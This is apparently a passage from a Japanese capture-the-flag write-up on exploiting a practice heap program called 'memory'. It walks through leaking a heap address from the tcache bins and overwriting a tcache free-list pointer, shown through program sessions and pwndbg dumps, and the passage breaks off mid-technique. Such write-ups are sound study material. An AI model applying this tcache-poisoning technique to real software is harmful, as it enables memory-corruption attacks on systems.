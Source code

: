 以下にExploitの手順について簡単に説明します。

ヒープアドレスのリークは`tcachebins`にリンクされているchunkのアドレスをリークできるので、0x10サイズのchunkを`dallocate()`して、"\n"のみデータとして書き込み、その後に`dview()`するとヒープアドレスの上位7バイトをリークできます。
```bash
$ ./memory
Memory can be easily accessed !
1) read
2) write
3) allocate
4) free
5) view
6) exit
>> 3
size: 
>> 16
data: 
>> 
1) read
2) write
3) allocate
4) free
5) view
6) exit
>> 5

�UUUU　　<- ヒープアドレスのリーク
```

最初の`tcachebins`の状態は下記になります。
```
pwndbg> bins
tcachebins
0x20 [  6]: 0x55555555b2a0 —▸ 0x55555555a770 —▸ 0x55555555ae50 —▸ 0x55555555acb0 —▸ 0x55555555ab10 —▸ 0x55555555a6e0 ◂— 0x0
0x70 [  7]: 0x55555555a9b0 —▸ 0x55555555ab50 —▸ 0x55555555acf0 —▸ 0x55555555ae90 —▸ 0x55555555b030 —▸ 0x55555555b1b0 —▸ 0x55555555a700 ◂— 0x0
0x80 [  7]: 0x55555555a910 —▸ 0x55555555aa90 —▸ 0x55555555ac30 —▸ 0x55555555add0 —▸ 0x55555555af70 —▸ 0x55555555b220 —▸ 0x55555555a660 ◂— 0x0
0xd0 [  5]: 0x55555555a190 —▸ 0x555555559e60 —▸ 0x555555559b30 —▸ 0x555555559800 —▸ 0x555555559370 ◂— 0x0
0xf0 [  2]: 0x55555555b0a0 —▸ 0x55555555a390 ◂— 0x0
```

`dwrite()`を用いて0xf0の`tcachebin`のフリーchunkを`0x55555555a390`から`0x55555555aef0`に変更します。
```
変更前の状態：0xf0 [  2]: 0x55555555b0a0 —▸ 0x55555555a390 ◂— 0x0
　　　　　　　　　　　　　　　
変更後の状態：0xf0 [  2]: 0x55555555b0a0 —▸ 0x55555555aef0 ◂— 0x0
```

変更後のヒープメモリの状態は下記になります。
```
0x55555555b070:	0x000055555555b1b0	0x000055555555ae90
0x55555555b080:	0x0000000000000000	0x0000000000000000
0x55555555b090:	0x0000000000000000	0x00000000000000f1
0x55555555b0a0:	0x000055555555aef0	0x0000555555559010
　　　　　　 　　~~~~~~~~~~~~~~~~~~　　
0x55555555b0b0:	0x0000000000000000	0x0000000000000000
0x55555555b0c0:	0x0000000000000000	0x0000000000000000
0x55555555b0d0:	0x0000000000000001	0x0000000000000035
0x55555555b0e0:	0x0000000000000000	0x0000000000000000
```
